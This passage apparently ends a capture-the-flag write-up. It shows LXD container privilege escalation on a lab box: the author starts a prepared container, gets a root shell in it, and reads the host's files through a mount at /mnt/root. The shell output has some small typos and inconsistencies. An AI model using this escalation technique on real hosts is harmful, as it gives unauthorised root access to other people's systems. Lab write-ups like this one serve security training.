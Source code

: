 With everything configured, I could start the new image using the following commands:

```
lxc start hotshoto
lxc exec hotshoto /bin/sh
```

```
ash@tabby: lxc exec hoc hotshoto /bin/sh
# Whoami
root 
# echo " "; echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo "";echo "id";echo; " ";echo "ifconfig:";/sbin/ifconfig -a; echo " ";echo "groups:";groups;

uname -a:
Linux hotshoto 5.4.0.31-generic #35-Ubuntu SMP Thu Jan 11 20:20:34 UTCH 2022 x86_64 Linux

hostname:
hotshoto

id
uid=0(root) gid=0(root)

ifconfig:
eth0		Link encap:Ethernet   HWaddr 00:16:3E:F4:23:06
			inet addr:10.52.139.131  Bcast:10.52.139.255  Mask:255.255.255.0
			inet6 addr: fd42:b312:e739:9016:216:3eff:fef4:2306/64 Scope:
```



After running the bash file, we see that we have a different shell which is the shell of the container. This container has all the files of the host machine and in order to browse the root object, we simply needed to navigate to "/mnt/root" to see all resources from the host machine. That’s the box! I
